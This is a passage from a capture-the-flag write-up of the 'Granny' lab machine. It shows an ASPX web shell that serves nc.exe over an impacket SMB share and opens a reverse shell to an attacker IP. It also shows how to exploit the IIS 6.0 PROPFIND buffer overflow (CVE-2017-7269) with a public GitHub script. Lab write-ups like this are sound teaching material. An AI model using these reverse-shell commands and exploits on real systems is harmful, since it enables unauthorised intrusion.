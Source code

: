Now that I have successfully uploaded the **WebShell** to the server, I check that it is accessible from the Root of the server, and indeed it does exist. I can now enumerate the system with some basic commands to check which account I engaged or if it is the target machine and not a container, finally I can access the system using one of the many methods that exist. I only have to create a shared resource with `impacket-smbserver` and make available the `nc.exe` binary, then from the victim machine I access it and run it to get a **Reverse Shell** on a port previously opened with `nc`.

```bash
# http://10.10.10.15/pwn3d.aspx
# whoami, ipconfig

locate nc.exe
cp /usr/share/SecLists/Web-Shells/FuzzDB/nc.exe ./nc.exe
impacket-smbserver smbFolder $(pwd) -smb2support
rlwrap -cAr nc -nlvp 443

# http://10.10.10.15/pwn3d.aspx
# \\10.10.14.56\smbFolder\nc.exe -e cmd 10.10.14.56 443
# :)
```

<br />
<img src="{{ site.img_path }}/granny_writeup/Granny_11.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/granny_writeup/Granny_12.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/granny_writeup/Granny_13.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/granny_writeup/Granny_14.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/granny_writeup/Granny_15.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

There is another way to engage the machine, the **IIS** server version is old and with `searchsploit` I could find several exploits, there is one written in **Python** that exploits a **Buffer Overflow** that may allow me to exploit a **RCE**. The vulnerability exploits the **PROPFIND** method (the server has it enabled), unfortunately the script is configured to run the `calc.exe` binary, so I'm going to look for an exploit in **Github** with the **CVE** of the vulnerability. There are several resources, but I find one from **[g0rx](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269){:target="_blank"}** that automates the compromise and gives me a **Reverse Shell**, I download it on my machine and again I get access to the machine.

> **Attacker Machine**:

```bash
searchsploit iis 6.0

searchsploit -x windows/remote/41738.py
searchsploit -w windows/remote/41738.py
# CVE: 2017-7269

git clone https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269
python3 iis_6_exploit.py
python2 iis_6_exploit.py

rlwrap -cAr nc -nlvp 443
python2 iis_6_exploit.py 10.10.10.15 80 10.10.14.56 443
# :)
```
